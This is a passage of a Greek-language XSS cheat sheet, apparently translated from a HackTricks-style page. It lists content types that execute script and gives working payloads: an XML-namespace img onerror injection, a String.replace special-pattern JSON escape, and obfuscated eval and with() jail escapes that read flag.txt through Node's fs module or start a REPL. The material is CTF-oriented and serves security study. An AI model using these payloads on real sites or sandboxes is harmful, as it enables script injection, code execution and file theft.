 (Από [**εδώ**](https://blog.huli.tw/2022/04/24/en/how-much-do-you-know-about-script-type/)) Οι παρακάτω τύποι περιεχομένου μπορούν να εκτελέσουν XSS σε όλους τους περιηγητές:

* text/html
* application/xhtml+xml
* application/xml
* text/xml
* image/svg+xml
* text/plain (?? όχι στη λίστα αλλά νομίζω ότι το είδα σε ένα CTF)
* application/rss+xml (off)
* application/atom+xml (off)

Σε άλλους περιηγητές μπορούν να χρησιμοποιηθούν άλλοι **`Content-Types`** για να εκτελέσουν αυθαίρετο JS, έλεγξε: [https://github.com/BlackFan/content-type-research/blob/master/XSS.md](https://github.com/BlackFan/content-type-research/blob/master/XSS.md)

### xml Content Type

Εάν η σελίδα επιστρέφει έναν τύπο περιεχομένου text/xml είναι δυνατόν να υποδειχθεί ένα namespace και να εκτελεστεί αυθαίρετο JS:
```xml
<xml>
<text>hello<img src="1" onerror="alert(1)" xmlns="http://www.w3.org/1999/xhtml" /></text>
</xml>

<!-- Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker (p. 113). Kindle Edition. -->
```
### Ειδικά Πρότυπα Αντικατάστασης

Όταν χρησιμοποιείται κάτι όπως **`"some {{template}} data".replace("{{template}}", <user_input>)`**. Ο επιτιθέμενος θα μπορούσε να χρησιμοποιήσει [**ειδικές αντικαταστάσεις συμβολοσειρών**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/String/replace#specifying\_a\_string\_as\_the\_replacement) για να προσπαθήσει να παρακάμψει κάποιες προστασίες: ``"123 {{template}} 456".replace("{{template}}", JSON.stringify({"name": "$'$`alert(1)//"}))``

Για παράδειγμα, σε [**αυτή την αναφορά**](https://gitea.nitowa.xyz/nitowa/PlaidCTF-YACA), αυτό χρησιμοποιήθηκε για να **διαφύγει μια συμβολοσειρά JSON** μέσα σε ένα σενάριο και να εκτελέσει αυθαίρετο κώδικα.

### Chrome Cache to XSS

{% content-ref url="chrome-cache-to-xss.md" %}
[chrome-cache-to-xss.md](chrome-cache-to-xss.md)
{% endcontent-ref %}

### Διαφυγή XS Jails

Αν έχετε μόνο ένα περιορισμένο σύνολο χαρακτήρων για χρήση, ελέγξτε αυτές τις άλλες έγκυρες λύσεις για προβλήματα XSJail:
```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
// Just replace console.log(1) to the real code, the code we want to run is:
//return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
```